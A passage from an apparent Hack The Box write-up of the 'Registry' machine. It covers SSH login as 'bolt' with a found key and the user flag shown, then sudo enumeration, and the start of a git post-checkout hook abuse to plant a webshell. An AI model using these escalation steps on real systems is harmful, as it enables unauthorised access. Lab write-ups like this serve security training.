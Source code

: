 ## Login in as user bolt

With the private key and password I found I'm able to SSH to the box with the user `bolt`:
```
root@kali:~/htb/registry# ssh -i id_rsa bolt@10.10.10.159
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-29-generic x86_64)
Last login: Sun Oct 20 23:05:17 2019 from 10.10.14.20
bolt@bolt:~$ id
uid=1001(bolt) gid=1001(bolt) groups=1001(bolt)
bolt@bolt:~$ cat user.txt
ytc0ytdmnzywnzgxngi0zte0otm3ywzi
```

## Enumeration as user bolt

The `backup.php` file I found earlier executes a backup application with sudo:

```
bolt@bolt:/var/www/html$ cat backup.php
<?php shell_exec("sudo restic backup -r rest:http://backup.registry.htb/bolt bolt");
```

Unfortunately my current `bolt` doesn't have rights to sudo that specific command but I have the following:

```
bolt@bolt:/var/www/html$ sudo -l
Matching Defaults entries for bolt on bolt:
    env_reset, exempt_group=sudo, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bolt may run the following commands on bolt:
    (git) NOPASSWD: /usr/bin/git checkout *
```

## Escalating to www-data using the git post-checkout hooks

Since I can execute git checkout as user `git` I can exploit the post-checkout hooks to get RCE. I'll just create a webshell so I can run commands as `www-data`:

```
bolt@bolt:/var/tmp$ cd /var/tmp
bolt@bolt:/var/tmp$ mkdir a
bolt@bolt:/var/tmp$ cd a
bolt@bolt:/var/tmp/a$ git init
Initialized empty Git repository in /var/tmp/a/.git/
bolt@bolt:/var/tmp/a$ touch blabla
bolt@bolt:/var/tmp/a$ git add blabla
bolt@bolt:/var/tmp/a$ git commit -m 'yo'

*** Please tell me who you are.

Run

  git config --global user.email "you@example.com"
  git config --global user.name "Your Name"

to set your account's default identity.
Omit --global to set the identity only in this repository.

fatal: empty ident name (for <bolt@bolt>) not allowed
bolt@bolt:/var/tmp/a$ vi .git/hooks/post-checkout
bolt@bolt:/var/tmp/a$ chmod 755 .git/hooks/post-checkout
bolt@bolt:/var/tmp/a$ chmod -R 777 *
bolt@bolt:/var/tmp/a$ chmod -R 777 .git/
```